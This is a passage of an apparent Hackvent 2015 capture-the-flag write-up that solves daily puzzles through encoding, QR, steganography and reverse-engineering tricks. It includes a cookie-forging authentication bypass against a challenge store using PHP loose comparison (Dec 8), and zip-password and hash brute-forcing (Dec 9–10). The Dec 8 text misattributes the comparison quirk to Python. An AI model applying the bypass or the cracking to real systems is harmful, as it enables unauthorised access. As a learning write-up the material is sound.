klingon = "pagh wa'vatlh netlh wa'maH wa'maH wa' SaD wa' SaD wa'vatlh wa' wa'maH wa'maH wa'vatlh wa'maH wa' wa'maH wa'maH netlh pagh wa'maH wa' wa'vatlh wa' wa'vatlh SaD SaD wa' wa'vatlh netlh wa'maH wa' wa'maH wa'maH wa'vatlh wa' wa'maH wa'maH wa' wa' wa'vatlh SaD wa' wa'maH wa'maH wa'maH wa'vatlh wa'maH SaD wa'maH wa' wa'maH wa'maH wa' wa' wa' wa'maH wa'vatlh wa' wa'vatlh wa' SaD wa' SaD wa'maH wa' wa' wa'maH wa' SaD  wa'maH wa' wa'maH wa'maH wa'vatlh wa'maH wa' wa'vatlh wa' wa'maH wa' wa' wa'maH wa' netlh wa'maH wa'vatlh wa' wa' wa' wa'vatlh wa'maH wa' wa'maH wa'maH SaD wa' wa'vatlh wa'maH SaD wa'vatlh wa' wa'maH SaD wa' wa'maH SaD"
klingon2binary = {'netlh':'10000', 'SaD':'1000', "wa'vatlh":'100', "wa'maH":'10', "wa' ":'1', 'pagh':'0' }

binary=klingon
for key in klingon2binary:
    binary=binary.replace(key,klingon2binary[key])    
 
binary = binary.replace(' ','')      
n = int(binary, 2)
nugget = binascii.unhexlify('%x' % n)

print binary 
print nugget
```

which output the following:

```
0100100001010110001100010011010100101101010000010110011001000100011001000010110101001101011100100011010101
0010100010110101111010011001100011000101110110001011010100101100110111011000010100111100101101010001100101
00010011010001101000

HV15-AfDd-Mr5J-zf1v-K7aO-FQ4h
```

**Nugget**

```
HV15-AfDd-Mr5J-zf1v-K7aO-FQ4h
```


## Dec 3  

**Challenge**  
... if you can


**Solution**  

We get an animated GIF images of a QR code. We see there are 29 frames, each with a small QR code. Manually reading the QR code of the first frame results in the letter 'H', so it would appear each frame contains one letter of the nugget.

We extract an read each frame of the gif and read the resulting QR code in python:

```python
import os, re
from PIL import Image
from qrtools import QR

def extractFrames(giffile, outputdir):
    with Image.open(giffile) as frame:
        nframes = 0
        while frame:
            frame.save( '%s/%s-%s.gif' % (outputdir, os.path.basename(giffile), nframes ) , 'GIF')
            nframes += 1
            try:
                frame.seek( nframes )
            except EOFError:
                break;
        return True    


# extract every fram
extractFrames('fast_response_code.gif', 'dec3_frames')

# read qr code in each extracted image
path="./dec3_frames/"

nugget=''
for filename in sorted(os.listdir(path), key=lambda x: int(re.findall(r'\d+', x)[0])):
    myCode = QR(filename=path+filename)
    if myCode.decode():
      nugget+=myCode.data_to_string()
      
print nugget
```

**Nugget**

```
HV15-6Jhd-nWbQ-4dY8-yxH5-vSiA
```

## Dec 4: Crypto 01   

**Challenge**  

*a classic / simple one*

Unfortunately, no one can be told what this is. You have to see it for yourself.

```
HOlAfOVWOqVd1o6q7u5Vj8Mv-----
```


**Solution**  

The string is exactly the length of a nugget, all the characters for HV15 are there as well as the 5 dashes. Maybe we just need to rearrange the characters somehow? 
We notice that the characters to form "HV15" are always 6 apart, so we create a grid:

```
HOlAfO
VWOqVd
1o6q7u
5Vj8Mv
----- 
```
reading this top-to-bottom and left-to-right gives the nugget


**Nugget**

```
HV15-OWoV-lO6j-Aqq8-fV7M-Oduv
```


## Dec 5: PDF  

**Challenge**  

*... for fun and profit*

It's in the Chuchichäschtli, not a Chäschüechli !

[Chuchichaeschtli.pdf](writeupfiles/Chuchichaeschtli.pdf)

**Solution**  

The pdf contains an image of a bauble with a QR code on it. It says

```
Oooops !
```

We see if there are any hidden files in the pdf (e.g. underneath the bauble image). We use http://www.extractpdf.com and find the following files:


We see that the first image was the one visible in the pdf. But it was covering the real QR code in the bauble of the third image. We scan this QR code to get the nugget.

**Nugget**

```
HV15-bkPb-tPEM-Fh3n-wvOi-5ZgD
```

## Dec 6: Lost ...

**Challenge**  

*... in translation*

```
HR7DYQ3ON4TC6U2AFAZDGJK3J44TYXZUNRCTATK2GEZDGJR5JJUC6ULUFQZEI5L6HY======
```

**Solution**  

```
base32 decode: <~<Cno&/S@(23%[O9<_4lE0MZ123&=Jh/Qt,2Du~>
base85 decode: UI15-g9C8-DnVI-W0Ne-83S3-Z8Qp
ROT-13: HV15-t9P8-QaIV-J0Ar-83F3-M8Dc
```

**Nugget**

```
HV15-t9P8-QaIV-J0Ar-83F3-M8Dc
```


## Dec 7: imagination  

**Challenge**  

*... is the eye of the soul*

Imagine your quick response for today.

```
0x1fc137f82a7a0dd05d76ebbcbb74815d82c720ff555fc018801f78baaf93c051d55e46346fd16dd457f54451df65fcec3a493768ffc00948aff4154e090627753ffebafa7ddd568860a87a3fd88eb
```

(filename M4pMy8it5.txt)

**Solution**  

"Imagine your quick response" and "map my bits" seem to suggest we need to create a QR code from the bits of the given hexstring

After some manual investigation we see that the hex string (with a zero prepended for padding) results in a binary string of exactly 625 characters, which is exactly 25 squared. This could represent a 25x25 QR code image!
we convert the bits to pixels with a small python script:

```python
from PIL import Image
from qrtools import QR
import textwrap

hexstring="01fc137f82a7a0dd05d76ebbcbb74815d82c720ff555fc018801f78baaf93c051d55e46346fd16dd457f54451df65fcec3a493768ffc00948aff4154e090627753ffebafa7ddd568860a87a3fd88eb"
data=int(hexstring,16)
binstring = bin(data)[2:]

# print bits in 25x25 square
print textwrap.fill(binstring,width=25)

# does look like a qr code, let's make an image from the bits!
outimg = Image.new( 'RGB', (25,25), "black") 
pixels_out = outimg.load() 

count=0 
for bit in binstring:    
    i=count%25
    j=count/25
    if bit == '0':
        pixels_out[(i,j)]=(255,255,255)
    count += 1
    
outimgname = "dec7_qrout.png"     
outimg = outimg.resize((250,250))
outimg.save(outimgname,"png")

# read the QR code and output the encoded text
myCode = QR(filename=outimgname)
if myCode.decode():
    print myCode.data_to_string()
```

Which outputs the following 

```
1111111000001001101111111
1000001010100111101000001
1011101000001011101011101
1011101011101111001011101
1011101001000000101011101
1000001011000111001000001
1111111010101010101111111
0000000001100010000000000
1111101111000101110101010
1111100100111100000001010
0011101010101011110010001
1000110100011011111101000
1011011011101010001010111
1111010101000100010100011
1011111011001011111110011
1011000011101001001001001
1011101101000111111111100
0000000010010100100010101
1111111010000010101010011
1000001001000001100010011
1011101010011111111111110
1011101011111010011111011
1011101010101101000100001
1000001010100001111010001
1111111011000100011101011

HV15-aFsf-4ea1-2eGg-Llr4-pB5A
```


**Nugget**

```
HV15-aFsf-4ea1-2eGg-Llr4-pB5A
```

## Dec 8: Santa's Christmas Store  

**Challenge**  

*best christmas balls out there*

u wanted to buy one of these beautiful balls for christmas, but Santa's shop keeps telling you they were sold out ... but maybe you should have a look yourself in the ...

Hint:



**Solution**  

From the hint we get the following code

```php
<h1> my store </h1>
<div>
<?php

if($_POST['user']) {
    $auth['user'] = $_POST['user'];
    $auth['password'] = $_POST['password'];
    setcookie('auth', base64_encode(json_encode($auth)));
    $_COOKIE['auth'] = base64_encode(json_encode($auth));
}

error_reporting(E_ALL);
ini_set('display_errors,1');
$cookie=json_decode(base64_decode(@$_COOKIE['auth']));

if (!$cookie || $cookie->user != ..<hidden>..

?>

..login form..
        
<?php
} else{
?>

..where the nugget is..

<?php
}
?>

```

From the code we see that if the user has filled in the form, a cookie is returned with a base64 encoded json representation of the form data. For example filling in `admin:admin` yields the following 
cookie (un base64'ed here):

```
{"user":"admin",password":"admin"}
```

If no data is provided in the POST request, the value stored in the cookie is used. How does this help us? Well, if the cookie is used to send username and password, 
we can do a bit more than if we use the form. For instance use numbers as values instead of strings.

Python string comparisons can be tricky, and if `==` is used rather than `===`, weird things can happen. For instance "somestring" == 0 always evaluates to `true`! So we post a request with a cookie that looks like

```
{"user":0,"password":0}
```

using python:

```python
import requests
import base64

# the url 
url="http://hackvent.hacking-lab.com/xMasStore_wqbrGjHxxZ9YkbfiKiGC/index.php"

# create our cookie
cookiestring='{"user":0,"password":0}'
cookiestringb64=base64.b64encode(cookiestring)
cookies=dict(auth=cookiestringb64)

# post our request
r=requests.post(url, cookies=cookies)

# print the response
print r.text
```

response html page:

```html
<!doctype html>
<html><head><title>Santa's Christmas Store - Best Christmas Balls out there - AdminCP</title>
</head>
<body>
<h1>Santa's Christmas Store - Best Christmas Balls out there - AdminCP</h1>
<div>
      <p>Welcome admin! Here is your daily goodie: <b>HV15-0Ch0-91zo-m99Y-kxGI-8iQ5</b></p>
</div>
<h1>NO NEED TO BF (BRUTEFORCE) THIS CHALLENGE, AS WITH ALL CHALLENGES IN HACKVENT, THX!</h1>
</body>
</html>
```

**Nugget**

```
HV15-0Ch0-91zo-m99Y-kxGI-8iQ5
```


## Dec 9: Sound Transmission 

**Challenge**  

*Hear it, find it, brute it* 

sadly we didnt receive todays code transmission properly and it seems that a part of the information got lost. are you able to recover the missing parts?

all we know is that the lowercase sha1 of the code gives:
```
B39ECFBC2C64ADBB7C7A9292EEE31794D28FE224
```
and the sha1 of the case sensitive code should be:

```
0D353038908AD0FC8C51A5312BB3E2FEE1CDDF83
```

[code_transmission.mp3](wirtupfiles/code_transmission_g5Nzjnl_OMQs4RMdA6rU.mp3)

**Solution**  

In the sound file we hear a voice saying the following letters, question marks indicate letters that were deliberatly left out.

```
HV?5-G?UJ-1YQ7-?DYC-2WLR-E6?J
```

That looks like almost a nugget. There are 4 unknown characters, of which we know the first one should be `1` to comply to the nugget format.

That leaves 3 unknowns, and we know what the sha1 hash of the lowercase version of the nugget should be. We can use that to find the 3 missing characters, and then we can try all the different casing of the string until we find the one that fits with the case-sensitive SHA1 hash. This sound like a very reasonable brute-force problem, so we write a small python script to solve it

```python
import itertools
import hashlib

def all_casings(input_string):
    if not input_string:
        yield ""
    else:
        first = input_string[:1]
        if first.lower() == first.upper():
            for sub_casing in all_casings(input_string[1:]):
                yield first + sub_casing
        else:
            for sub_casing in all_casings(input_string[1:]):
                yield first.lower() + sub_casing
                yield first.upper() + sub_casing
                
target_lc='B39ECFBC2C64ADBB7C7A9292EEE31794D28FE224'.lower()
target_cs='0D353038908AD0FC8C51A5312BB3E2FEE1CDDF83'.lower()

charset='abcdefghijklmnopqrstuvwxyz0123456789'


for i in itertools.product(charset, repeat=3):
    nugget = 'hv15-g'+i[0]+'uj-1yq7-'+i[1]+'dyc-2wlr-e6'+i[2]+'j'  
    h = hashlib.sha1()
    h.update(nugget)   
    h_hex = h.hexdigest()
    if h_hex == target_lc:
        print 'Found lowercase match!'
        print ' --> nugget: '+ nugget +' (sha1 '+h.hexdigest()+')'
        break
        
print 'Searching for the correct case..'
for i in all_casings(nugget):
    h = hashlib.sha1()
    h.update(i)   
    h_hex = h.hexdigest()
    if h_hex == target_cs:
        print 'Found case-sensitive match!'
        print ' --> nugget: '+ i + ' (sha1 '+h.hexdigest()+')'
        break

```

This outputs:

```
Found lowercase match!
 --> nugget: hv15-gnuj-1yq7-vdyc-2wlr-e6xj (sha1 b39ecfbc2c64adbb7c7a9292eee31794d28fe224)
Searching for the correct case..
Found case-sensitive match!
 --> nugget: HV15-GnUj-1YQ7-vdYC-2wlr-E6xj (sha1 0d353038908ad0fc8c51a5312bb3e2fee1cddf83)
```

**Nugget**

```
HV15-GnUj-1YQ7-vdYC-2wlr-E6xj
```


## Dec 10: Nasty Zip  

**Challenge**  

*its so nasty, isnt it?*

get the ZIP, you'll know what's to do!

[zip file](writeupfiles/nasty-Zip.zip)

**Solution**  

The zip contains another zip, `1.zip`, which contains another zip, `2.zip`, etc.. Lookz like it's zip files all the way down!

A peek in the `strings` command output leads us to suspect there are 31337 levels to this zipception 

We unzip all the way down using the following bash script:

```bash
#!/bin/bash

unzip nasty-Zip.zip

level=1

while [[ $level -lt 31337 ]]
do
    unzip -q -o -d  ${level} "${level}.zip"
    nextlevel=$[$level+1]
    cp "${level}/${nextlevel}.zip" .
    rm -R ${level}
    rm "${level}.zip"
    level=$nextlevel
done 
```

probably not the fastest way but it worked..

the final zip file, `31337.zip` contains a text file, `worst.500`, but is password protected. We check if it has a short password by bruteforcing it with all passwords upto length 6 with `fcrackzip`

```bash
$ fcrackzip -u -l 1-6 31337.zip


PASSWORD FOUND!!!!: pw == love
```

Yay! The zip file contained a text file with the nugget


**Nugget**

```
HV15-iQYf-adNg-o4S9-JHc7-vfWu
```


## Dec 11: Old School

**Challenge**  

*good old times*

Most of you have not experienced this.
Maybe your grandfather can help you out today!




**Solution**  

I always like it when a challenge teaches me something completely new.

After some Googling we find out this is an IBM 96 column punch card. It has three rows of 32 characters each, so can encode a message of 96 characters. Each character is represented by a set of holes in the rows
labelled B,A,8,4,2,1

The holes in our challenge are indicated by transparent holes


Conveniently, we also find an image online containing all possible characters:



so `BA---1` signifies letter A, `BA--2-` signifies B, etc. We use this to translate the message. 

```python
# let binary string represent the punches (1=punched, 0=not punched)
# 110001 = A, 110010=B etc
#

holes2ascii = {'110001':'A', '110010':'B', '110011':'C', '110100':'D', 
               '110101':'E', '110110':'F', '110111':'G', '111000':'H', 
               '111001':'I', '100001':'J', '100010':'K', '100011':'L', 
               '100100':'M', '100101':'N', '100110':'O', '100111':'P',             
               '101000':'Q', '101001':'R', '010010':'S', '010011':'T', 
               '010100':'U', '010101':'V', '010110':'W', '010111':'X',
               '011000':'Y', '011001':'Z', '000001':'1', '000010':'2',
               '000011':'3', '000100':'4', '000101':'5', '000110':'6',
               '000111':'7', '001000':'8', '001001':'9', '010000':'0',
               '001100':'@', '001011':'#', '101100':'*', '101011':'$',
               '100000':'-', '010001':'/', '011011':',', '111011':'.',
               '111110':'+', '011101':'_', '101010':':', '001010':'-??-',
               '101110':';', '001110':'=', '011010':'&', '111100':'<',
               '011110':'>', '110000':'}', '111111':'|', '101111':'-??-',
               '111010':'-??-', '011100':'%', '011111':'?', '001101':"'",
               '001111':'"', '111101':'(', '101101':')', '000000':' '               
               }
               
# get the holes per word
message ='010110 101001 111001 010011 110101 000000 010011 111000 110101 000000 000110 000000 110010 100011 100110 110011 100010 010010 000000 110001 100011 010011 110101 101001 100101 110001 010011 110101 100011 011000 000000'
message+='111000 010101 000001 000101 111111 100100 000011 111000 100101 111111 110010 110111 000101 111000 111111 100011 010100 110110 110101 111111 001000 010110 100111 100100 111111 100010 011001 110110 100010 000000'
message+='010100 100111100111110101101001000000 110001100101110100000000 100011100110010110110101101001000000 010011100110000000 110111110001111001100101000000 100101010100110111110111110101010011000000'

message = message.replace(' ','')
letters=map(''.join, zip(*[iter(message)]*6))

print ''.join(holes2ascii[l] for l in letters)
```

Output:

```
WRITE THE 6 BLOCKS ALTERNATELY HV15|M3HN|BG5H|LUFE|8WPM|KZFK UPPER AND LOWER TO GAIN NUGGET 
```

we do what it says, starting with uppercase block to conform to the nugget format. 


**Nugget**

```
HV15-m3hn-BG5H-lufe-8WPM-kzfk
```


## Dec 12: High Performance Computing  

**Challenge**  

We were given this little piece of code to run.
Unfortunately it takes a bit too long to terminate on our systems and even gcc's -O3 does not seem to help.
Maybe you want to run it on your new peta-flop CPU for a couple of years?


```c
#include <stdio.h>
#include <stdint.h>

uint64_t foo(uint64_t a) {
	uint64_t s = a - 42;
	s += 23*2-3;
	return s;
}

uint64_t bar(uint64_t a) {
	uint64_t s = a + 42;
	s -= 23*2-3;
	return s;
}

uint64_t baz(uint64_t a, uint64_t b) {
	uint64_t r = 0;
	for(uint64_t i=0; i<a; i++)
		r = foo(r);
	for(uint64_t i=0; i<b; i++)
		r = foo(r);
	
	return r;
}

uint64_t spam(uint64_t a, uint64_t b) {
	uint64_t r = baz(0,a);
	for(uint64_t i=0; i<b; i++)
		r = bar(r);
	
	return r;
}

uint64_t eggs(uint64_t a, uint64_t b) {
	uint64_t r = 0;
	for(uint64_t i=0; i<a; i++)
		r = baz(r, b);
	return r;
}

uint64_t merry(uint64_t a, uint64_t b) {
	uint64_t i;
	for(i=0; a>=b; i++)
		a = spam(a, b);
	return i;
}

uint64_t xmas(uint64_t a, uint64_t b) {
	return spam(a, eggs(merry(a,b),b));
}

uint64_t hackvent(uint64_t a, uint64_t b) {
	uint64_t r = 1;
	for(uint64_t i=0; i<a; i++)
		r = eggs(r, b);
	return r;	
}


int main() {
	uint64_t val=0;
	for(uint64_t i=0; i<0xC0DE42; i++) {
		val = xmas(eggs(baz(hackvent(merry(i,42),3),val),i),0x42DEADBABEC0FFEE);
	}
	printf("HV15-mHPC-%04llx-%04llx-%04llx-%04llx\n",
		val>>48,(val&0x0000FFFF00000000)>>32,
		(val&0x00000000FFFF0000)>>16, (val&0x000000000000FFFF));

	return 0;
}
```

**Solution**  

This code would take forever to terminate, so we must rewrite the code to optimize it for speed. 

We notice that most of the functions actually perform very simple operations, but go out of their way to do it very slowly:

```
foo(a)        --  a++
bar(a)        --  a--
baz(a,b)      --  a+b
spam(a,b)     --  a-b
eggs(a,b)     --  a*b
merry(a,b)    --  a/b
xmas(a,b)     --  a - (a/b)*b
hackvent(a,b) --  b^a
```

We factor out most of these functions. The `hackvent` function cannot simply be replaced by `pow(b,a)` because we are using 64 bit integers, 
but we can use a little trick to speed up the integer power function using the knowledge that:

```
a^n  --> a^(n/2) * a^(n/2)          for even n
         a * a^(n/2) * a^(n/2)      for odd n
```

So we can write a recursive function to calculate the power which will be much quicker. 

After applying all optimisations, our code looks like this:

```c
#include <stdio.h>
#include <stdint.h>

uint64_t mypow(uint64_t base, uint64_t exp){
	if (exp==0) 
		return 1

	uint64_t x = mypow(base,exp/2);

	if(exp % 2==0) 
		return x*x;
	else 
		return base*x*x;
}

uint64_t xmas(uint64_t a, uint64_t b) {
	return a - (a/b)*b;
}

int main() {
	uint64_t val=0;
	for(uint64_t i=0; i<0xC0DE42; i++) {
                val = xmas( (mypow( 3,i/42) + val) * i ,0x42DEADBABEC0FFEE);
	}

	printf("HV15-mHPC-%04llx-%04llx-%04llx-%04llx\n",
		val>>48,(val&0x0000FFFF00000000)>>32,
		(val&0x00000000FFFF0000)>>16, (val&0x000000000000FFFF));
	return 0;
}
```

And gives us our nugget within a second.


*NOTE: The above power function only works for positive exponents, a more general integer power algorithm is:*

```c
uint64_t mypow2(uint64_t base, uint64_t exp){
	uint64_t result = 1;
    	while (exp){
        	if (exp & 1)
        	    result *= base;
        	exp >>= 1;
        	base *= base;
    	}
    	return result;
}
```


**Nugget**


```
HV15-mHPC-067e-751e-f50e-17e3
```

## Dec 13: Ball in plain sight!?!  

**Challenge**  

... here it is, but will you be able to reveal it's secret?


*BALL-O-MATIC*

There are days, in which you don't get immediately the HV15-Nugget. This is such a day!
Put the resulting flag or sentence of the day here and get the only counting HV15-Nugget

**Solution**  

So we are looking for a hidden message, but it will not be the `HV15-` string. 

Playing around with various settings in GIMP we can see that there are some letters hidden in the images, but we can't quite make out what it says:


We check out the pixel values in python and notice that most values are odd..

Hmm, lets see what we get when we only output the pixels with even pixel value in the red channel:

```python
from PIL import Image

img = Image.open('ball_3h6SOemwRR_PmQhXh2AM.png')
pixels_orig = img.load() 
(w,h)=img.size

outimg = Image.new( 'RGB', (w,h), "white") 
pixels_out = outimg.load() 

for i in range(0,h):
    for j in range(0,w):
      (r,g,b) = pixels_orig[j,i] 
      if(r%2==0):      
          pixels_out[j,i]=(0,0,0)

outimg.save("dec13_evenredval.png","png") 
```

We get the following image:


Aha! seems like we're on the right track :) ..Let's check out the other channels. The green channel gives nothing, but blue yields:



XKCD comic 26 is:



Ok, let's try taking the fourier transform with imagemagick:

```bash
$ convert ball_3h6SOemwRR_PmQhXh2AM.png -fft  +depth +adjoin fourier-%d.png
```

this gives two images, the magnitude and the phase:





The magnitude image may appear black, but contains more information than meets the eye. We enhance the image with a log transform to produce a *frequence spectrum* image:

```bash
$ convert fourier-0.png -auto-level -evaluate log 12000 spectrum.png
```


We see text in the spectrum! ..this must be what we put in the ball-o-matic to get our nugget.

```
f0uRier-ru1ez
```
Indeed it was, our ball-o-matic turns into our bauble with QR code:


**Nugget**

```
HV15-1W0A-gTOY-bOpM-mexV-LoAz
```

## Dec 14: Reversing #1  

**Challenge**  

*an easy binary starter*

pull out the Nugget out of this binary. 

[hv15_ZM0qfjSu8Tf3OZDqjS74.exe](writeupfiles/hv15_ZM0qfjSu8Tf3OZDqjS74.exe)

**Solution**  

We get a .NET binary. We decompile the executable with ILSpy (http://ilspy.net/) and get the following C# code:


```c#
using Microsoft.VisualBasic;
using Microsoft.VisualBasic.CompilerServices;
using System;
using System.ComponentModel;
using System.Diagnostics;
using System.Drawing;
using System.Runtime.CompilerServices;
using System.Security.Cryptography;
using System.Text;
using System.Windows.Forms;

namespace hv15
{
	[DesignerGenerated]
	public class Form1 : Form
	{
		public class GlobalVariables
		{
			public static string assembly = "__ERROR_HANDLER";
		}

		private IContainer components;

		[AccessedThroughProperty("Button1")]
		private Button _Button1;

		[AccessedThroughProperty("TextBox1")]
		private TextBox _TextBox1;

		[AccessedThroughProperty("Label1")]
		private Label _Label1;

		[AccessedThroughProperty("PictureBox1")]
		private PictureBox _PictureBox1;

		[AccessedThroughProperty("Label2")]
		private Label _Label2;

		internal virtual Button Button1
		{
			get
			{
				return this._Button1;
			}
			[MethodImpl(MethodImplOptions.Synchronized)]
			set
			{
				EventHandler value2 = new EventHandler(this.Button1_Click);
				if (this._Button1 != null)
				{
					this._Button1.Click -= value2;
				}
				this._Button1 = value;
				if (this._Button1 != null)
				{
					this._Button1.Click += value2;
				}
			}
		}

		internal virtual TextBox TextBox1
		{
			get
			{
				return this._TextBox1;
			}
			[MethodImpl(MethodImplOptions.Synchronized)]
			set
			{
				this._TextBox1 = value;
			}
		}

		internal virtual Label Label1
		{
			get
			{
				return this._Label1;
			}
			[MethodImpl(MethodImplOptions.Synchronized)]
			set
			{
				this._Label1 = value;
			}
		}

		internal virtual PictureBox PictureBox1
		{
			get
			{
				return this._PictureBox1;
			}
			[MethodImpl(MethodImplOptions.Synchronized)]
			set
			{
				this._PictureBox1 = value;
			}
		}

		internal virtual Label Label2
		{
			get
			{
				return this._Label2;
			}
			[MethodImpl(MethodImplOptions.Synchronized)]
			set
			{
				this._Label2 = value;
			}
		}

		public Form1()
		{
			base.Load += new EventHandler(this.Form1_Load);
			this.InitializeComponent();
		}

		[DebuggerNonUserCode]
		protected override void Dispose(bool disposing)
		{
			try
			{
				if (disposing && this.components != null)
				{
					this.components.Dispose();
				}
			}
			finally
			{
				base.Dispose(disposing);
			}
		}

		[DebuggerStepThrough]
		private void InitializeComponent()
		{
			ComponentResourceManager componentResourceManager = new ComponentResourceManager(typeof(Form1));
			this.Button1 = new Button();
			this.TextBox1 = new TextBox();
			this.Label1 = new Label();
			this.PictureBox1 = new PictureBox();
			this.Label2 = new Label();
			((ISupportInitialize)this.PictureBox1).BeginInit();
			this.SuspendLayout();
			Control arg_70_0 = this.Button1;
			Point location = new Point(266, 143);
			arg_70_0.Location = location;
			this.Button1.Name = "Button1";
			Control arg_98_0 = this.Button1;
			Size size = new Size(87, 25);
			arg_98_0.Size = size;
			this.Button1.TabIndex = 0;
			this.Button1.Text = "Verify";
			this.Button1.UseVisualStyleBackColor = true;
			Control arg_DA_0 = this.TextBox1;
			location = new Point(266, 108);
			arg_DA_0.Location = location;
			this.TextBox1.Name = "TextBox1";
			Control arg_105_0 = this.TextBox1;
			size = new Size(333, 20);
			arg_105_0.Size = size;
			this.TextBox1.TabIndex = 1;
			this.Label1.AutoSize = true;
			Control arg_137_0 = this.Label1;
			location = new Point(263, 79);
			arg_137_0.Location = location;
			this.Label1.Name = "Label1";
			Control arg_162_0 = this.Label1;
			size = new Size(336, 14);
			arg_162_0.Size = size;
			this.Label1.TabIndex = 2;
			this.Label1.Text = "Please enter the daily Code and click on Verify";
			this.PictureBox1.Image = (Image)componentResourceManager.GetObject("PictureBox1.Image");
			Control arg_1B0_0 = this.PictureBox1;
			location = new Point(12, 12);
			arg_1B0_0.Location = location;
			this.PictureBox1.Name = "PictureBox1";
			Control arg_1DE_0 = this.PictureBox1;
			size = new Size(233, 156);
			arg_1DE_0.Size = size;
			this.PictureBox1.TabIndex = 3;
			this.PictureBox1.TabStop = false;
			this.Label2.AutoSize = true;
			this.Label2.Enabled = false;
			Control arg_22B_0 = this.Label2;
			location = new Point(438, 154);
			arg_22B_0.Location = location;
			this.Label2.Name = "Label2";
			Control arg_256_0 = this.Label2;
			size = new Size(161, 14);
			arg_256_0.Size = size;
			this.Label2.TabIndex = 4;
			this.Label2.Text = "code by HACKVent santa";
			SizeF autoScaleDimensions = new SizeF(7f, 14f);
			this.AutoScaleDimensions = autoScaleDimensions;
			this.AutoScaleMode = AutoScaleMode.Font;
			size = new Size(617, 180);
			this.ClientSize = size;
			this.Controls.Add(this.Label2);
			this.Controls.Add(this.PictureBox1);
			this.Controls.Add(this.Label1);
			this.Controls.Add(this.TextBox1);
			this.Controls.Add(this.Button1);
			this.Font = new Font("Courier New", 8.25f, FontStyle.Regular, GraphicsUnit.Point, 0);
			this.FormBorderStyle = FormBorderStyle.FixedToolWindow;
			this.Name = "Form1";
			this.StartPosition = FormStartPosition.CenterScreen;
			this.Text = "HACKVent 2015";
			((ISupportInitialize)this.PictureBox1).EndInit();
			this.ResumeLayout(false);
			this.PerformLayout();
		}

		private void Button1_Click(object sender, EventArgs e)
		{
			string text = this.TextBox1.Text;
			string left = this.Encrypt(text, Form1.GlobalVariables.assembly);
			if (Operators.CompareString(left, "zV5/UFU8PUD3N2T49IBuCwvGzCLYz39tkMZts7rfBU4=", false) == 0)
			{
				Interaction.MsgBox("yes, that is the key!", MsgBoxStyle.Information, "HACKVent 2015");
			}
			else
			{
				Interaction.MsgBox("nope, that is NOT the key!", MsgBoxStyle.Critical, "HACKVent 2015");
			}
		}

		public string Encrypt(string input, string pass)
		{
			RijndaelManaged rijndaelManaged = new RijndaelManaged();
			MD5CryptoServiceProvider mD5CryptoServiceProvider = new MD5CryptoServiceProvider();
			string result;
			try
			{
				byte[] array = new byte[32];
				byte[] sourceArray = mD5CryptoServiceProvider.ComputeHash(Encoding.ASCII.GetBytes(pass));
				Array.Copy(sourceArray, 0, array, 0, 16);
				Array.Copy(sourceArray, 0, array, 15, 16);
				rijndaelManaged.Key = array;
				rijndaelManaged.Mode = CipherMode.ECB;
				ICryptoTransform cryptoTransform = rijndaelManaged.CreateEncryptor();
				byte[] bytes = Encoding.ASCII.GetBytes(input);
				result = Convert.ToBase64String(cryptoTransform.TransformFinalBlock(bytes, 0, bytes.Length));
			}
			catch (Exception expr_7B)
			{
				ProjectData.SetProjectError(expr_7B);
				Exception ex = expr_7B;
				Interaction.MsgBox(ex.Message, MsgBoxStyle.OkOnly, null);
				result = "";
				ProjectData.ClearProjectError();
			}
			return result;
		}

		private void Form1_Load(object sender, EventArgs e)
		{
			this.Show();
			this.TextBox1.Focus();
		}
	}
}

```

We see that the user input goes through an encrypt() function, and the base64-encoding of the result must equal `zV5/UFU8PUD3N2T49IBuCwvGzCLYz39tkMZts7rfBU4=`. 
The encrypt functions performs a Rijndael encryption in ECB mode. The key is derived from the string `"__ERROR_HANDLER"` (variable `assembly`) by computing the MD5 hash, and using this to construct the key as follows (variable `array` will contain the key) : 

```
Array.Copy(sourceArray, 0, array, 0, 16);
Array.Copy(sourceArray, 0, array, 15, 16);
```

So our key is:

```
assembly = "__ERROR_HANDLER"
MD5(assembly) = E5B45EB06725D6A06F6C337C58730956
key for encryption = E5B45EB06725D6A06F6C337C587309E5B45EB06725D6A06F6C337C5873095600

```

Since we know our key and our desired output, we can now reverse the Rijndael encryption in C# to get the nugget as follows:

(This can also be done online using dotnetfiddle (https://dotnetfiddle.net/) )

```c#
using System;
using System.Security.Cryptography;
using System.Text;

public class Program
{
	public static void Main()
	{		

		string pass = "__ERROR_HANDLER";
		string target= "zV5/UFU8PUD3N2T49IBuCwvGzCLYz39tkMZts7rfBU4=";
		byte[] keyarray = new byte[32];
		
		// Base64 decrypt target string
		byte[] target2 = Convert.FromBase64String(target);
		
		// Set our encryption/decryption key
		MD5CryptoServiceProvider mD5CryptoServiceProvider = new MD5CryptoServiceProvider();
		byte[] sourceArray = mD5CryptoServiceProvider.ComputeHash(Encoding.ASCII.GetBytes(pass));
		Array.Copy(sourceArray, 0, keyarray, 0, 16);
		Array.Copy(sourceArray, 0, keyarray, 15, 16);
		
		// Set up Rijndael Decrypt
		RijndaelManaged rijndaelManaged = new RijndaelManaged();
		rijndaelManaged.Key = keyarray;
		rijndaelManaged.Mode = CipherMode.ECB;
		ICryptoTransform cryptoTransformDecrypt = rijndaelManaged.CreateDecryptor();
		
		// Do it
		byte[] result = cryptoTransformDecrypt.TransformFinalBlock(target2,0, target2.Length);
		System.Text.Encoding encoding = new System.Text.ASCIIEncoding();

		// print result
		Console.WriteLine(encoding.GetString(result));
	}
}
```


**Nugget**

```
HV15-uQEJ-4HPX-Qcau-Xvt7-NAlP
```

## Dec 15: Paper and Pen

**Challenge**  

*applying bitwise equations on decimals*


```
We've captured a strange message. It looks like it is encrypted somehow ...
iw, hu, fv, lu, dv, cy, og, lc, gy, fq, od, lo, fq, is, ig, gu, hs, hi, ds, cy, oo, os, iu, fs, gu, lh, dq, lv, gu, iw, hv, gu, di, hs, cy, oc, iw, gc


We've also intercepted what seems to be a hint to the key:
bytwycju + yzvyjjdy ^ vugljtyn + ugdztnwv | xbfziozy = bzuwtwol
    ^         ^          ^          ^          ^
wwnnnqbw - uclfqvdu & oncycbxh | oqcnwbsd ^ cgyoyfjg = vyhyjivb
    &         &          &          &          &
yzdgotby | oigsjgoj | ttligxut - dhcqxtfw & szblgodf = sfgsoxdd
    +         +          +          +          +
yjjowdqh & niiqztgs + ctvtwysu & diffhlnl - thhwohwn = xsvuojtx
    -         -           -         -          -
nttuhlnq ^ oqbctlzh - nshtztns ^ htwizvwi + udluvhcz = syhjizjq
    =         =           =         =          =         
fjivucti   zoljwdfl   sugvqgww   uxztiywn   jqxizzxq


Note:
  assume q != 0
  a letter is a decimal digit is a letter
  each digit has exactly two different letter representations
  C-like operator precedence

```

**Solution**  

